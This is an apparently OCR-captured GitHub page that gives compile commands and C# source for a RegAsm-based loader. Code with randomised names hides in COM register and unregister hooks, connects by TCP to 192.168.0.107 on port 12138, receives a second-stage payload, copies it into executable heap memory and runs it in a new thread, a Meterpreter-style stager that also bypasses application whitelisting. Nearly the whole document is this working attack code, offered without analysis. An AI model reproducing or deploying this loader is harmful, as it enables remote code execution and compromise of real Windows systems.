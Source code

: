	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out: C:\Users\y\Desktop\dll.dll  /unsafe C:\Users\y\Desktop\dll.cs
	>C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /u dll.dll
```csharp
namespace HYlDKsYF
 {
	 public class kxKhdVzWQXolmmF : ServicedComponent {
		 public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); }
		 [ComRegisterFunction]
		 public static void RegisterClass ( string pNNHrTZzW )
		 {
			 ZApOAKJKY.QYJOTklTwn();
			 }
			 [ComUnregisterFunction]
			 public static void UnRegisterClass ( string pNNHrTZzW )
			 {
				 ZApOAKJKY.QYJOTklTwn();
				 }
				 }
				 public class ZApOAKJKY  { [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);
				 [DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);
				 [DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);
				 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF,UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);
				 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy,int iJGvqiEDGLhjr) {
					 IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy),iJGvqiEDGLhjr);
					 Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
					 try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }
					 catch { return null;}
					 byte[] Bjpvhc = new byte[4];
					 MXCEuiuRIWgOYze.Receive(Bjpvhc,4,0);
int IETFBI = BitConverter.ToInt32(Bjpvhc,0);
byte[] ZKSAAFwxgSDnTW = new byte[IETFBI +5];
int JFPJLlk =0;
while(JFPJLlk < IETFBI)
{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk +5,(IETFBI - JFPJLlk)<4096 ? (IETFBI - JFPJLlk) : 4096,0);}
byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);
Array.Copy(nXRztzNVwPavq,0, ZKSAAFwxgSDnTW,1,4); ZKSAAFwxgSDnTW[0]=0xBF;
return ZKSAAFwxgSDnTW;}
static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {
	if(KNCtlJWAmlqJ !=null) {
		UInt32 uuKxFZFwog = HeapCreate(0x00040000,(UInt32)KNCtlJWAmlqJ.Length,0);
	UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog,0x00000008,(UInt32)KNCtlJWAmlqJ.Length);
	RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ,(UInt32)KNCtlJWAmlqJ.Length);
	UInt32 ijifOEfllRl =0;
	IntPtr ihXuoEirmz = CreateThread(0,0, sDPjIMhJIOAlwn, IntPtr.Zero,0, ref ijifOEfllRl);
	WaitForSingleObject(ihXuoEirmz,0xFFFFFFFF);}}
	
	public static void QYJOTklTwn() {
		byte[] ZKSAAFwxgSDnTW =null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.0.107",12138);
		TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);
		} } }

```
  #### Msbuild